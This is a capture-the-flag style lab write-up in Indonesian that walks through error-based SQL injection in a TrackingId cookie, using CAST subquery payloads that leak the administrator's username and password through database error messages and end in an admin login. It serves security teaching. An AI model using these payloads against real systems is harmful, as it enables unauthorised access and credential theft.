







# Visible Error-Based SQL Injection

## Challenge Overview

**Title:** Visible Error-Based SQL Injection

**Category:** Injection

Lab ini memiliki kerentanan **Error-Based SQL Injection**. Aplikasi menggunakan cookie `TrackingId` untuk query analitik. Query SQL yang dijalankan error-nya terekspos ke client, sehingga bisa dimanfaatkan untuk membaca isi database, termasuk kredensial user. Tujuan lab adalah mendapatkan password user **administrator** dan login ke akunnya.

---

## Tools Used

* **Burp Suite** – Untuk intercept, replay, dan memodifikasi request.
* **Web Browser** – Untuk login setelah mendapatkan password.

---

## Step by Step Solution

### 1. Identifikasi Parameter Rentan

* Jalankan aplikasi di browser → Burp Suite akan menangkap request.

    
* Terlihat cookie seperti ini:

```
TrackingId=qM8fOVm3dCq1dRFw
```

* Tambahkan `'` di akhir value →

```
TrackingId=qM8fOVm3dCq1dRFw'
```

* Respon dari server menampilkan **error SQL detail** → konfirmasi bahwa parameter rentan terhadap SQL Injection.

---

### 2. Validasi dengan Komentar

* Tambahkan komentar `--` untuk menutup query dengan benar:

```
TrackingId=qM8fOVm3dCq1dRFw'--
```

* Respon normal kembali → berarti query valid.

---

### 3. Uji Eksekusi Subquery

* Coba inject SELECT sederhana:

```
TrackingId=qM8fOVm3dCq1dRFw' AND CAST((SELECT 1) AS int)--
```

* Error muncul, tapi berarti query dieksekusi.
* Perbaiki dengan ekspresi boolean:

```
TrackingId=qM8fOVm3dCq1dRFw' AND 1=CAST((SELECT 1) AS int)--
```

* Respon normal → query valid lagi.

---

### 4. Enumerasi Data dari Table `users`

* Coba ekstrak username:

```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

* Muncul error baru → query terlalu panjang & return lebih dari 1 row.

* Solusinya: kosongkan TrackingId agar payload lebih singkat + batasi hasil:

```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

* Error leak menunjukkan:

```
ERROR: invalid input syntax for type integer: "administrator"
```

→ Username pertama adalah **administrator**.

---

### 5. Ekstrak Password Admin

* Ubah payload untuk ambil password:

```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

* Error leak menampilkan password hash / plaintext admin.

---

### 6. Login sebagai Admin

* Masuk ke halaman login.
* Input `username = administrator` dan password hasil leak.
* Login berhasil → **lab solved**.



